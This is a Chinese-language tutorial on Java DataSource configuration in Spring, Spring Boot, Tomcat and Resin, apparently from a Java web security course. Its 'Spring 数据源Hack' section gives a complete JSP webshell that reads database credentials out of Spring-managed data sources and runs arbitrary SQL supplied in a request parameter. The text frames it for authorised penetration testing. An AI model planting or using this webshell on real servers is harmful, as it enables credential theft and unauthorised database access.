

# DataSource

在真实的Java项目中通常不会使用原生的`JDBC`的`DriverManager`去连接数据库，而是使用数据源(`javax.sql.DataSource`)来代替`DriverManager`管理数据库的连接。一般情况下在Web服务启动时候会预先定义好数据源，有了数据源程序就不再需要编写任何数据库连接相关的代码了，直接引用`DataSource`对象即可获取数据库连接了。

常见的数据源有：`DBCP`、`C3P0`、`Druid`、`Mybatis DataSource`，他们都实现于`javax.sql.DataSource`接口。

## Spring MVC 数据源

在Spring MVC中我们可以自由的选择第三方数据源，通常我们会定义一个`DataSource Bean`用于配置和初始化数据源对象，然后在Spring中就可以通过Bean注入的方式获取数据源对象了。

**在基于XML配置的SpringMVC中配置数据源:**

```xml
<bean id="dataSource" class="com.alibaba.druid.pool.DruidDataSource" init-method="init" destroy-method="close">
        <property name="url" value="${jdbc.url}"/>
        <property name="username" value="${jdbc.username}"/>
        <property name="password" value="${jdbc.password}"/>
        ....
        />
```

如上，我们定义了一个id为`dataSource`的Spring Bean对象，`username`和`password`都使用了`${jdbc.XXX}`表示，很明显`${jdbc.username}`并不是数据库的用户名，这其实是采用了Spring的`property-placeholder`制定了一个`properties`文件，使用`${jdbc.username}`其实会自动自定义的properties配置文件中的配置信息。

```xml
<context:property-placeholder location="classpath:/config/jdbc.properties"/>
```

`jdbc.properties`内容：

```java
jdbc.driver=com.mysql.jdbc.Driver
jdbc.url=jdbc:mysql://localhost:3306/mysql?autoReconnect=true&zeroDateTimeBehavior=round&useUnicode=true&characterEncoding=UTF-8&useOldAliasMetadataBehavior=true&useOldAliasMetadataBehavior=true&useSSL=false
jdbc.username=root
jdbc.password=root
```

在Spring中我们只需要通过引用这个Bean就可以获取到数据源了，比如在Spring JDBC中通过注入数据源(`ref="dataSource"`)就可以获取到上面定义的`dataSource`。

```xml
<!-- jdbcTemplate Spring JDBC 模版 -->
<bean id="jdbcTemplate" class="org.springframework.jdbc.core.JdbcTemplate" abstract="false" lazy-init="false">
  <property name="dataSource" ref="dataSource"/>
</bean>
```

**SpringBoot配置数据源：**

在SpringBoot中只需要在`application.properties`或`application.yml`中定义`spring.datasource.xxx`即可完成DataSource配置。

```java
spring.datasource.url=jdbc:mysql://localhost:3306/mysql?autoReconnect=true&zeroDateTimeBehavior=round&useUnicode=true&characterEncoding=UTF-8&useOldAliasMetadataBehavior=true&useOldAliasMetadataBehavior=true&useSSL=false
spring.datasource.username=root
spring.datasource.password=root
spring.datasource.type=com.alibaba.druid.pool.DruidDataSource
spring.datasource.driver-class-name=com.mysql.jdbc.Driver
```

### Spring 数据源Hack

我们通常可以通过查找Spring数据库配置信息找到数据库账号密码，但是很多时候我们可能会找到非常多的配置项甚至是加密的配置信息，这将会让我们非常的难以确定真实的数据库配置信息。某些时候在授权渗透测试的情况下我们可能会需要传个shell尝试性的连接下数据库(`高危操作，请勿违法!`)证明下危害，那么您可以在`webshell`中使用注入数据源的方式来获取数据库连接对象，甚至是读取数据库密码(**切记不要未经用户授权违规操作！**)。

**`spring-datasource.jsp`获取数据源/执行SQL语句示例**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.springframework.context.ApplicationContext" %>
<%@ page import="org.springframework.web.context.support.WebApplicationContextUtils" %>
<%@ page import="javax.sql.DataSource" %>
<%@ page import="java.sql.Connection" %>
<%@ page import="java.sql.PreparedStatement" %>
<%@ page import="java.sql.ResultSet" %>
<%@ page import="java.sql.ResultSetMetaData" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<style>
    th, td {
        border: 1px solid #C1DAD7;
        font-size: 12px;
        padding: 6px;
        color: #4f6b72;
    }
</style>
<%!
    // C3PO数据源类
    private static final String C3P0_CLASS_NAME = "com.mchange.v2.c3p0.ComboPooledDataSource";

    // DBCP数据源类
    private static final String DBCP_CLASS_NAME = "org.apache.commons.dbcp.BasicDataSource";

    //Druid数据源类
    private static final String DRUID_CLASS_NAME = "com.alibaba.druid.pool.DruidDataSource";

    /**
     * 获取所有Spring管理的数据源
     * @param ctx Spring上下文
     * @return 数据源数组
     */
    List<DataSource> getDataSources(ApplicationContext ctx) {
        List<DataSource> dataSourceList = new ArrayList<DataSource>();
        String[]         beanNames      = ctx.getBeanDefinitionNames();

        for (String beanName : beanNames) {
            Object object = ctx.getBean(beanName);

            if (object instanceof DataSource) {
                dataSourceList.add((DataSource) object);
            }
        }

        return dataSourceList;
    }

    /**
     * 打印Spring的数据源配置信息,当前只支持DBCP/C3P0/Druid数据源类
     * @param ctx Spring上下文对象
     * @return 数据源配置字符串
     * @throws ClassNotFoundException 数据源类未找到异常
     * @throws NoSuchMethodException 反射调用时方法没找到异常
     * @throws InvocationTargetException 反射调用异常
     * @throws IllegalAccessException 反射调用时不正确的访问异常
     */
    String printDataSourceConfig(ApplicationContext ctx) throws ClassNotFoundException,
            NoSuchMethodException, InvocationTargetException, IllegalAccessException {

        List<DataSource> dataSourceList = getDataSources(ctx);

        for (DataSource dataSource : dataSourceList) {
            String className = dataSource.getClass().getName();
            String url       = null;
            String UserName  = null;
            String PassWord  = null;

            if (C3P0_CLASS_NAME.equals(className)) {
                Class clazz = Class.forName(C3P0_CLASS_NAME);
                url = (String) clazz.getMethod("getJdbcUrl").invoke(dataSource);
                UserName = (String) clazz.getMethod("getUser").invoke(dataSource);
                PassWord = (String) clazz.getMethod("getPassword").invoke(dataSource);
            } else if (DBCP_CLASS_NAME.equals(className)) {
                Class clazz = Class.forName(DBCP_CLASS_NAME);
                url = (String) clazz.getMethod("getUrl").invoke(dataSource);
                UserName = (String) clazz.getMethod("getUsername").invoke(dataSource);
                PassWord = (String) clazz.getMethod("getPassword").invoke(dataSource);
            } else if (DRUID_CLASS_NAME.equals(className)) {
                Class clazz = Class.forName(DRUID_CLASS_NAME);
                url = (String) clazz.getMethod("getUrl").invoke(dataSource);
                UserName = (String) clazz.getMethod("getUsername").invoke(dataSource);
                PassWord = (String) clazz.getMethod("getPassword").invoke(dataSource);
            }

            return "URL:" + url + "<br/>UserName:" + UserName + "<br/>PassWord:" + PassWord + "<br/>";
        }

        return null;
    }
%>
<%
    String sql = request.getParameter("sql");// 定义需要执行的SQL语句

    // 获取Spring的ApplicationContext对象
    ApplicationContext ctx = WebApplicationContextUtils.getWebApplicationContext(pageContext.getServletContext());

    // 获取Spring中所有的数据源对象
    List<DataSource> dataSourceList = getDataSources(ctx);

    // 检查是否获取到了数据源
    if (dataSourceList == null) {
        out.println("未找到任何数据源配置信息!");
        return;
    }

    out.println("<hr/>");
    out.println("Spring DataSource配置信息获取测试:");
    out.println("<hr/>");
    out.print(printDataSourceConfig(ctx));
    out.println("<hr/>");

    // 定义需要查询的SQL语句
    sql = sql != null ? sql : "select version()";

    for (DataSource dataSource : dataSourceList) {
        out.println("<hr/>");
        out.println("SQL语句:<font color='red'>" + sql + "</font>");
        out.println("<hr/>");

        //从数据源中获取数据库连接对象
        Connection connection = dataSource.getConnection();

        // 创建预编译查询对象
        PreparedStatement pstt = connection.prepareStatement(sql);

        // 执行查询并获取查询结果对象
        ResultSet rs = pstt.executeQuery();

        out.println("<table><tr>");

        // 获取查询结果的元数据对象
        ResultSetMetaData metaData = rs.getMetaData();

        // 从元数据中获取字段信息
        for (int i = 1; i <= metaData.getColumnCount(); i++) {
            out.println("<th>" + metaData.getColumnName(i) + "(" + metaData.getColumnTypeName(i) + ")\t" + "</th>");
        }

        out.println("<tr/>");

        // 获取JDBC查询结果
        while (rs.next()) {
            out.println("<tr>");

            for (int i = 1; i <= metaData.getColumnCount(); i++) {
                out.println("<td>" + rs.getObject(metaData.getColumnName(i)) + "</td>");
            }

            out.println("<tr/>");
        }

        rs.close();
        pstt.close();
    }
%>
```

**读取数据源信息和执行SQL语句效果:**



上面的代码不需要手动去配置文件中寻找任何信息就可以直接读取出数据库配置信息甚至是执行SQL语句，其实是利用了Spring的`ApplicationContext`遍历了当前Web应用中Spring管理的所有的Bean，然后找出所有`DataSource`的对象，通过反射读取出`C3P0`、`DBCP`、`Druid`这三类数据源的数据库配置信息，最后还利用了`DataSource`获取了`Connection`对象实现了数据库查询功能。

## Java Web Server 数据源

除了第三方数据源库实现，标准的Web容器自身也提供了数据源服务，通常会在容器中配置`DataSource`信息并注册到`JNDI(Java Naming and Directory Interface)`中，在Web应用中我们可以通过`JNDI`的接口`lookup(定义的JNDI路径)`来获取到`DataSource`对象。

### Tomcat JNDI DataSource

Tomcat配置JNDI数据源需要手动修改`Tomcat目录/conf/context.xml`文件，参考：[Tomcat JNDI Datasource](https://tomcat.apache.org/tomcat-8.0-doc/jndi-datasource-examples-howto.html)

```xml
<Context>

  <Resource name="jdbc/test" auth="Container" type="javax.sql.DataSource"
               maxTotal="100" maxIdle="30" maxWaitMillis="10000"
               username="root" password="root" driverClassName="com.mysql.jdbc.Driver"
               url="jdbc:mysql://localhost:3306/mysql"/>

</Context>
```

### Resin JNDI DataSource

Resin需要修改`resin.xml`,添加`database`配置,参考：[Resin Database configuration](https://www.caucho.com/resin-4.0/admin/database.xtp)

```xml
<database jndi-name='jdbc/test'>
  <driver type="com.mysql.jdbc.Driver">
    <url>jdbc:mysql://localhost:3306/mysql</url>
    <user>root</user>
    <password>root</password>
  </driver>
</database>
```

